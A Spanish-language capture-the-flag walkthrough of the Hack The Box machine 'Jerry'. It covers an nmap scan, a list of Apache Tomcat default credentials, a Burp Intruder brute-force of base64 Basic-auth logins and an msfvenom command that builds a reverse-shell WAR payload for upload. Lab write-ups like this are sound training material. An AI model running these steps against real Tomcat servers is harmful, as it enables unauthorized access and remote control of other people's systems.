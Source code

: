 # 5 - Jerry \(win\_easy\)

## **Scanning**

```text
nmap -T4 -p- -A -sS 10.10.10.4
```

![](../../.gitbook/assets/imagen%20%28560%29.png)

Tenemos un **apache tomacat default page**.

![](../../.gitbook/assets/imagen%20%28553%29.png)



### Apache Tomcat Default Credentials

| Username | Password |
| :--- | :--- |
| admin | password |
| admin |  |
| admin | Password1 |
| admin | password1 |
| admin | admin |
| admin | tomcat |
| both | tomcat |
| manager | manager |
| role1 | role1 |
| role1 | tomcat |
| role | changethis |
| root | Password1 |
| root | changethis |
| root | password |
| root | password1 |
| root | r00t |
| root | root |
| root | toor |
| tomcat | tomcat |
| tomcat | s3cret |
| tomcat | password1 |
| tomcat | password |
| tomcat |  |
| tomcat | admin |
| tomcat | changethis |

### Usando burpsuit

Lo arracamos con todo default

Vamos a proxy -&gt; opciones vemos la ip

Lo ponemos como proxy de firefox

![](../../.gitbook/assets/imagen%20%28549%29.png)

#### Enviando una default credential

Al entrar al login probamos tomcat tomcat pero antes de enviarla probamos ver donde estan esos parametros. 

![](../../.gitbook/assets/imagen%20%28563%29.png)

Bien el problema aqui es que aparece como Basic: y algo encriptado \(en la ultima linea\), para esto lo enviamos al decoder. En el decoder lo podemos cambiar a base64 y verlos en plain text

![Resultado](../../.gitbook/assets/imagen%20%28548%29.png)

No hubo suerte con el anterior.

Hacemos **gedit** con las contraseñas y usuarios por defecto, reemplazamos \(cntl h\) el espacio en el medio por un **:** ya que es el formato por defecto que vimos.

![](../../.gitbook/assets/imagen%20%28561%29.png)

Hacemos un bash script para pasar eso todo a base64

```text
for cred in $(cat tomcat.txt); do echo -n $cred | base64; done
```

Back al burpsuit, desde ahi ponemos el modo intruder en sniper. Seleccionamos el archivo en base64 y desde payloads le cargamos los hashes.

![](../../.gitbook/assets/imagen%20%28566%29.png)

Pasandole el payload llegamos al correcto, decodificandola era **tomcat:s3cret**

![](../../.gitbook/assets/imagen%20%28565%29.png)

### **Inside tomcat**

![](../../.gitbook/assets/imagen%20%28556%29.png)

Vemos que maneja los archivos WAR, podemos subir alguno, probemos uno malicioso de google.

Con msfvenom

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

Usaremos netcat para escuchar la entrada del reverse shell

![](../../.gitbook/assets/imagen%20%28550%29.png)

![](../../.gitbook/assets/imagen%20%28564%29.png)



